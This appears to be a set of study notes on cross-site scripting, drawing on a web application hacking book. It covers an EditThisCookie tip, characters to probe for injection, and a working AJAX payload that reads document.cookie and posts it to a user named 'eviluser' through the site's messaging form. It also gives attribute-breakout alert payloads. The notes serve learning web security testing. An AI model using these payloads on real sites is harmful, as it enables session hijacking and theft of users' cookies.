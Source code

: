 To Change the cookie in your own browser you can use de plugin "EditThisCookie"


To check if XSS is a possible attack vector you have to check if in some input you can add:
```text
`
'
<
>
/
[Space]
script
onload
javascript
```



**Using AJAX requests**
- AJAX Request to obtain a session token
        ```
        <script>
                d = "&to=eviluser&enviar=Enviar&mensaje=Mi cookie es: "+document.cookie;
                if(window.XMLHttpRequest)
                {
                x=new XMLHttpRequest();
                }
                else
                {
                x=new ActiveXObject('Microsoft.XMLHTTP');
                }
                x.open("POST","func/send.php",true);
                x.setRequestHeader('Content-Type','application/x-www-form-urlencoded');
                x.setRequestHeader('Content-Length',d.length);
                x.send(d);
        </script>
        ```
The `x.open("POST","func/send.php",true);` create the POST request and with the true we indicate that the request is going to be asynchronous, that means that the browser is not going to get freeze until get the answer.
The `x.setRequestHeader` is useful to create a more sharp request indicating the headers to use


###### 	Delivery Mechanism for XSS
[Chapter 12 - The Web Appication Hacker's Book]
.
.
.
.

###### XSS examples
- Example 1: A Tag Attribute Value
```
<input type="text" name="address1" value="myxsstestdmqlwp">
	"><script>alert(1)</script>
	" onfocus="alert(1)
```
